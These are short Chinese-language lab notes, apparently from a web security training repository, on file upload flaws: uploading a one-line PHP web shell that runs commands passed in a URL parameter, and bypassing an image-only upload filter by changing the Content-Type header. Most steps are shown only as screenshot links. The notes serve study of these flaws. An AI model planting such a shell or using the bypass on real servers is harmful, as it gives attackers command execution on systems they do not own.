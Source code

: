 ## labs

### 不受限制的文件上传

上传一句话木马

```php
<?php echo system($_GET['command']); ?>
```

![image-20250508135353494](./img/image-20250508135353494.png)

### Content-Type bypass

![image-20250508135707080](./img/image-20250508135707080.png)

仅允许`image/jpeg`和`image/png`文件上传

修改`Content-Type`

![image-20250508135903885](./img/image-20250508135903885.png)
